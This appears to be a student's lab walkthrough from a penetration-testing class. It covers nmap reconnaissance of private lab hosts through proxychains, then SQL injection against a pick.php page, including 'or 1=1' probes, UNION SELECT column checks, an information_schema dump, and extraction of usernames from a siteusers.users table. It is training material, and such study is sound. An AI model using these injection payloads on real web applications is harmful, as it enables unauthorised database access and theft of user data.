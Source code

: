     Nmap scan report for 192.168.28.172
    Host is up (0.00034s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh

    Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

Step 4. Check 192.168.28.181. student@lin-ops:~$ `proxychains nmap 192.168.28.181`

    Nmap scan report for 192.168.28.181
    Host is up (0.00034s latency).
    Not shown: 998 closed ports
    PORT   STATE SERVICE
    22/tcp open  ssh
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds


Step 5. Check 192.168.28.190 -> ignore this as told by the instructor so the ip to work with is .172 and .181. The later has http and tcp open so lets go for the tcp and see who's this guy. 

Step 6. Since .181 has an http open, let's do an enumeration scan on him. student@lin-ops:~$ `nmap -Pn -sT 192.168.28.181 -p 80 --script http-enum.nse` which will give you this result

    Nmap scan report for 192.168.28.181
    Host is up (0.0035s latency).

    PORT   STATE SERVICE
    80/tcp open  http

    Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds

Step 7. Change the proxy settings. Check notes on how to do this 

#### Step 1 of schema table ####

Step 8. `http://192.168.28.181/pick.php?product=7 or 1=1` increase product until it breaks. Look at the view page source to see how the code looks like. 

#### Step 2 of schema table ####

Step 9. Validate the columns `http://192.168.28.181/pick.php?product=7 union SELECT 1,2,3` Notice that this is also out of order. 

Step 10. Golden statement `http://192.168.28.181/pick.php?product=7 union select table_schema, column_name, table_name FROM information_schema.columns`

#### Step 3 of schema table ####

other way -> `http://192.168.28.181/pick.php?product=7 union select table_schema, 2,3 FROM information_schema.columns` -> shows the types

other way class -> `http://192.168.28.181/pick.php?product=7 union select user_id,name,username FROM siteusers.users` 

Tabel_schema = database name = siteusers
